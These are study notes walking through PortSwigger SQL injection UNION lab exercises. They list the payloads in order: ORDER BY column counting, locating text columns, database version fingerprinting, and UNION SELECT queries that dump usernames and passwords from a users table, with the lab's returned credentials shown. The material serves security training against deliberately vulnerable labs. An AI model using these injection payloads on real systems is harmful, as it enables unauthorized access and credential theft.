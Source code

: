 2) Determine the data type of the columns

select a, b from products where category='Gifts

' UNION select 'a', NULL--
' UNION select 'a', 'a'--
-> both columns are of data type string

' UNION select username, password from users--

administrator
tqx26ugf8jp1g30atsu9


# 7)Lab: SQL injection UNION attack, retrieving multiple values in a single column(https://portswigger.net/web-security/sql-injection/union-attacks)
Lab video: https://www.youtube.com/watch?v=yRVYoqR9vrI
LAB: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

SQL Injection - Product category filter

End Goal: retrieve all usernames and passwords and login as the administrator user.

Analysis:
--------

(1) Find the number of columns that the vulnerable is using:
' order by 1-- -> not displayed on the page
' order by 2-- -> displayed on the page
' order by 3-- -> internal server error

3 - 1 = 2

(2) Find which columns contain text
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'-- ->**

(3) Output data from other tables

' UNION select NULL, username from users--
' UNION select NULL, password from users--

' UNION select NULL, version()--
-> PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

```
' UNION select NULL, username || '*' || password from users--
```

carlos*hx8lpsrznosr462ydnvh
administrator*35v95vbpktdv4c2nqgak
wiener*0qc4vtnx4o08sr5nsstf

# 8)Lab: SQL injection UNION attack, retrieving multiple values in a single column 
